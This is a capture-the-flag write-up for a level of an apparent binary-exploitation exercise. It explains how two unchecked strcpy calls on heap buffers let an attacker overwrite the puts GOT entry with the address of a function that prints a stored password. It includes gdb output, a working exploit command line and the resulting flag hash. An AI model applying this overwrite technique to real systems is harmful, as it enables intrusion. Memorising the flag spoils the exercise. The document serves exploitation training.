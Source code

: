 # level7

## Header

```bash
ssh level7@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```

<hr>

## Solution

From the inspecting [disassembled code](./source.s), we can understand that the program opens 
`/home/user/level8/.pass` and reads it to the global buffer `c` of size 80.
The main problem is `puts` call doesn't print buffer `c`, but `~~` string literal instead.

Our savior is `m` function that calls `printf` that prints time and `c` buffer.

So, we need to replace `puts` address in `GOT` table with `m` address.

To do that, let's pay attention to 2 facts:
- There are 4 consecutive `malloc(8)` calls
- There are 2 `strcpy` unprotected calls 

1st and 3rd `malloc` calls are just arrays of two integers, `arr1` and `arr2`.
The result of 2nd and 4th calls are stored in `arr1[1]` and `arr2[1]`, respectively.

This scheme represents the memory after all `malloc` being called. <br>
<img src="./Resources/scheme07.png" width=400/>

`strcpy` will copy from the address stored in arr[1] (first red block on the scheme)

Our goal is to make the 2nd `strcpy` to be called with address of puts in GOT as the 1st parameter and the address of `m` function as the 2nd parameter.

```
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.

(gdb) p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>
```

Results:
```
0x8049928 - puts@got.plt
0x80484f4 - m function
```

Let's exploit!
```bash
# (20 bytes padding + addr of `puts@got.plt` + addr of `m`):
./level7 $'XXXXXXXXXXXXXXXXXXXX\x28\x99\x04\x08' $'\xf4\x84\x04\x08'
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1668220618
```

## References

